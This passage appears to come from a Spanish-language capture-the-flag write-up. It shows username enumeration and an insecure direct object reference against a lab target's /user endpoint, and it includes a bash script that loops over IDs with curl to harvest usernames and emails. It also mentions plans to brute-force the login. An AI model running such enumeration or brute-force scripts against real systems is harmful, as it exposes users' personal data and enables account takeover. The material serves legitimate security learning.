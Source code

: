 > NOTA:

En la parte de `WORDLIST` tendremos que poner el nombre de dicho que utilicemos que tendra que estar en el mismo directorio, lo mismo con `<IP>` tendremos que poner la de la victima.

Ahora lo ejecutamos de esta forma:

```shell
chmod +x userAttack.sh
bash userAttack.sh
```

Info:

```
..............................<RESTO_CODIGO>.......................................
[*] Probando usuario: 007
[+] Usuario válido encontrado: 007
[*] Probando GET en /user/007
[+] Usuario con datos: 007
{
  "email": "george@example.com",
  "id": 7,
  "username": "george"
}
```

Veremos que ha funcionado y que ha encontrado dicho usuario, ahora tendremos que realizar fuerza bruta con dicho usuario `007` al parametro `/login`, por lo que nos montaremos otro `script`.

Pero veremos que no va a funcionar, si volvemos a pensar, vemos que tenemos en `007` tambien un identificador (`id`) vamos a ver si tambien nos puestra la informacion por `id` de esta forma:

```shell
curl http://<IP>:12345/user/7
```

Info:

```
{
  "email": "george@example.com",
  "id": 7,
  "username": "george"
}
```

Vemos que funciona, por lo que vamos a montarnos un script para obtener todos los usuarios mediante los `id` de esta forma:

> idAttack.sh

```bash
#!/bin/bash

URL="http://<IP>:12345/user"  # Sustituye <IP> por la IP real

echo "[*] Enumerando usuarios por ID..."

for id in $(seq 1 100); do
    echo "[*] Probando ID: $id"
    response=$(curl -s "$URL/$id")

    # Comprueba si hay un username en la respuesta
    if [[ "$response" == *"username"* ]]; then
        username=$(echo "$response" | grep -oP '"username":\s*"\K[^"]+')
        echo "[+] Usuario encontrado: ID=$id, username=$username"
    else
        echo "[-] No hay usuario con ID: $id"
    fi
done
```